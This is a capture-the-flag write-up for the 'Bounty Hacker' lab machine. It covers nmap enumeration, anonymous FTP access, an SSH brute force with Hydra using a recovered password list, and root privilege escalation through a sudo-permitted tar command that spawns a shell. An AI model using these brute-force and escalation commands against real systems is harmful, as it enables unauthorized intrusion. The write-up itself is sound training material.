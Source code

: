 # 'Bounty Hacker' writeup
# ![Alt text](images/9ad38a2cc31d6ae0030c888aca7fe646.jpeg?raw=true "Title")
+ **We deploy the machine and start with an nmap scan for open ports**


``nmap -sV -sC -oN scan1 10.10.229.13``
      
+ **We can see 3 open ports with some well known services: ftp, ssh and http, all opened on default ports**

![Alt text](images/nmap_scan.jpg?raw=true "Nmap_scan")

+ **Next, we will try to connect to the ftp service using the default user anonymous**

![Alt text](images/ftp_login.jpg?raw=true "Ftp_login")

+ **Listing the directory, we can observe two .txt files uploaded so let's get them**



``mget *.txt``

+ **Reading the task.txt file, we can find out who wrote the task list, giving us the first task answer. We list the second txt file, named locks.txt, and we can see multiple strings which seems to be some passwords kept in the ftp server**

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
...
```

+ **Let's try to use this password file to connect on the ssh service, using simultanously the user found in the previous task. The Hydra tool has a brute-force option to crack the login of the ssh service, so we can use it**

``hydra -l lin -P locks.txt 10.10.229.13 -t 4 ssh``


+ **After we execute the brute-force process, Hydra give us the needed user password**

# ![Alt text](images/hydra_brute.jpg?raw=true "Hydra")

+ **With the given credentials, we will connect to the ssh service**

``ssh lin@10.10.229.13``

+ **We land on the wanted system so we can read our first user flag**

# ![Alt text](images/first_flag.jpg?raw=true "first_flag")

+ **Running the** ``sudo -l`` **command on @lin user and listing the allowed commands, we can see that user @lin may run the following commands on bountyhacker:**
      ``(root) /bin/tar``
  
# ![Alt text](images/whoami.jpg?raw=true "whoami")

+ **Tar is a linux utilitary, used by a lot of unix system administrators to create compressed archive files or to extract them. Looking into the tar manual, we can see that it has an option that can execute a command during the compress-program**

# ![Alt text](images/tar.jpg?raw=true "tar manual")

+ **That being said, let's try to break our environment and spawn a shell for a privilege escalation, getting access to the @root user**

``sudo tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'``

# ![Alt text](images/root_flag.jpg?raw=true "root_flag")

+ **We got our root flag and finished the box. It was an easy box but a good one for the beginners, focusing on simple utilitary and default linux apps which can escalate to the sys admin and also the idea of unconfigured credentials on services - like ftp**
**Many thanks to Sevuhl, the creator of this box**

        
